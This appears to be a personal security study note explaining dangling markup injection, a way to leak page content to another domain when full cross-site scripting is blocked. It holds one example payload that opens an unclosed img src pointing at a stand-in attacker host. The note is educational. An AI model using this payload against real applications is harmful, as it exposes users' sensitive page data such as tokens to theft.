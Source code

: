 Dangling markup injection is a technique for capturing data cross-domain in situations where a full cross-site scripting attack isn't possible.
## Example
Suppose an application is vulnerable to XSS and does not filter or escape the `>` or `"` characters. An attacker can break out of any quoted attribute value and the enclosing tag using `">` in their payload which allows them to return to an HTML context.

However, a regular XSS attack is not possible, due to input filters, [content security policy](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FClient-side%20Vulnerabilities%2FCross-Site%20Scripting%2FContent%20Security%20Policy%2FIntroduction), or other obstacles. In this case, an attacker can deliver the following payload and perform a dangling markup injection attack:
```html
"><img src='//attacker-website.com?
```
This payload creates an `img` tag and defines the start of a `src` attribute containing a URL on the attacker's server. Note the payload doesn't close the `src` attribute, which is left "dangling". When the browser parses the response, it will look throughout the content until it encounters another single quote to terminate the attribute. Everything until that character will be treated as part of the URL and will be sent to the attacker's server within the query string.

The consequence of this example attack is that the attacker can capture part of the application's response following the injection point, which might contain sensitive data.
## Note
Any attribute that makes an external request can be used for dangling markup.
